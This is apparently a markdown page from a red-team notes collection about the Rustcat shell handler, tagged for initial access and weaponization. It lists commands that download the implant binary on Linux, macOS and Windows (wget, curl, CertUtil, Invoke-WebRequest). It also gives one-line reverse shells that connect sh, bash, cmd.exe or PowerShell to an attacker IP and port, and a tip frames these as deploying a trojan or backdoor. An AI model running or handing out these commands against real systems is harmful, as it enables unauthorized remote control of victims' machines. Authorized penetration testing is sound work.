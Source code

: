 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - rustcat
---
```

# Rustcat

## 01 - Download Pre-compiled Implant

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Linux

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

### 1.2 - OSX

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64
```

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

### 1.3 - Windows

```
C:\> CertUtil.exe -urlcache -split -f https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe rcat.exe

C:\> curl.exe -o rcat.exe https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
PS C:\> Invoke-WebRequest -Uri https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe -OutFile rcat.exe
```

## 02 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/Netcat Variants/Rustcat]]